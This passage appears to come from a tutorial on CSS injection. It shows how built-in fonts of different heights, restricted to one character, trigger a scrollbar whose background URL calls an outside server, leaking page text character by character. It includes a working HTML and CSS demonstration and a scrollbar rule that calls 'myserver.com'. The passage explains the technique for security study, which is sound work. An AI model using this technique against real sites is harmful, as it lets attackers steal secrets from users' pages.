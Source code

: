 This trick mainly solves the problem encountered in the previous trick: "cannot know the order of the characters". This trick combines many details, and there are many steps, so you need to listen carefully.

First, we can actually not load external fonts and leak out characters using built-in fonts. How can we do this? We need to find two sets of built-in fonts with different heights.

For example, there is a font called "Comic Sans MS", which is higher than another font called "Courier New".

For example, assuming that the default font height is 30px and Comic Sans MS is 45px. Now we set the height of the text block to 40px and load the font, like this:

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "fa";
        src:local('Comic Sans MS');
        font-style:monospace;
        unicode-range: U+41;
      }
      div {
        font-size: 30px;
        height: 40px;
        width: 100px;
        font-family: fa, "Courier New";
        letter-spacing: 0px;
        word-break: break-all;
        overflow-y: auto;
        overflow-x: hidden;
      }
      
    </style>
    Secret: <div>DBC</div>
    <div>ABC</div>
  </body>
</html>
```

We will see the difference on the screen:

![height](/img/css-injection-2/p2.png)

It is obvious that A is higher than the height of other characters, and according to our CSS settings, if the content height exceeds the container height, a scrollbar will appear. Although it is not visible in the screenshot above, the ABC below has a scrollbar, while the DBC above does not.

Moreover, we can actually set an external background for the scrollbar:

``` css
div::-webkit-scrollbar {
    background: blue;
}

div::-webkit-scrollbar:vertical {
    background: url(https://myserver.com?q=a);
}
```

